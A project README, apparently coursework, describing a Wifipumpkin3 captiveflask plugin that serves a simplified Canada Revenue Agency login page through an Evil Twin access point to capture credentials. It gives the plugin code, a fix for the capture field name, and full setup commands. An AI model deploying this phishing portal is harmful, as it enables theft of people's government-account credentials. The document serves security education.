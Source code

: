 # COMP630-FINAL-CAPTIVEFLASK
Developing a captive portal for Wifipumpkin's captiveflask plugin
 
### Description
Developing a custom captiveflask plugin to perform an Evil Twin credential capture. This project recreates a simplified version of the Canada Revenue Agency (CRA) login portal for educational purposes. It's designed to demonstrate the creation of captive portals and should **not** be used for malicious activities. This project is purely for learning and understanding the techniques involved.

A wireless adapter is required, the one used in this instanace is the Alfa AWUS1900.

### Key Resources
A few very helpful resources that were used to create this template:

https://github.com/mh4x0f/extra-captiveflask

https://wifipumpkin3.github.io/2022/captiveflask-portal-build/

## Creating the Captive Portal

The project started by identifying a target login portal (CRA) and saving its HTML source code. The HTML was then significantly simplified, retaining only the core login functionality and essential visual elements. This simplified version focuses solely on the functional aspects of the login process, removing unnecessary elements from the original CRA website. This simulates a CRA login page. Upon submission of login credentials the user is redirected to a "redirecting" page, while their credentials are captured to Wifipumpkin. No actual authentication with the CRA system occurs.

### Configuration File

```
# file => craplugin.py
from wifipumpkin3.plugins.captiveflask.plugin import CaptiveTemplatePlugin
import wifipumpkin3.core.utility.constants as C # import plugin class base

class craplugin(CaptiveTemplatePlugin):
    Name = "craplugin"
    Version = "1.0"
    Description = "CRA Login Page'"
    Author = "Sam Bronson"
    TemplatePath = C.TEMPLATES_FLASK + "templates/exampleplugin"
    StaticPath = C.TEMPLATES_FLASK + "templates/exampleplugin/static"
    Preview = C.TEMPLATES_FLASK + "templates/exampleplugin/preview.png"
```

### File Architecture
```
craplugin/
├── static
│   ├── css 
│   │   ├── apps.css
│   │   ├── common.css
│   │   └── theme.min.css
│   └── images
│       ├── sig-blk-en.svg
│       └── wmms-blk.svg
└── templates
    ├── login.html
    └── login_successful.html
```

### Issues and Debugging.
Wifipumpkin seems to be very stringent with the input fields for credential capture, and this was the biggest problem I came across that hindered its success.

In previous versions username input was labelled as username or userid.

```
        <label class="required" for="UserID">User  ID <strong class="required"><i>(required)</i></strong></label>
        <input type="text" name="UserID" id="UserID" class="form-control" required>
        <p><a href="#">Forgot your user ID?</a></p>
```

What ended up working was changing the label to login, possibly indicative that Wifipumpkin is looking for "login". 

```
        <label class="required" for="login">User  ID <strong class="required"><i>(required)</i></strong></label>
        <input type="text" name="login" id="login" class="form-control" required>
        <p><a href="#">Forgot your user ID?</a></p>
```

### Captive Portal Setup

**Install the craplugin.zip, then run Wifipumpkin3.**

```
sudo wp3 
```

**Install the plugin to Wifipumpkin.**

```
wp3 > use misc.custom_captiveflask
wp3 > install craplugin craplugin.zip
```

**Restart Wifipumpkin3.** 

**Set up the portal.**

```
wp3 > set interface wlan0
wp3 > set ssid CRA Portal
wp3 > set proxy captiveflask
wp3 > set captiveflask.craplugin true
```

**Verify that the proxy is set up**

```
wp3 > proxies
```

**Start the instance**

```
wp3 > start
```

### Disclaimer
Any malicious use of the contents from this repository, will not hold the author responsible, the contents are solely for educational purpose.

Usage of this template for attacking without prior mutual consistency can be considered as an illegal activity.
Authors assume no liability and are not responsible for any misuse or damage caused by this program.
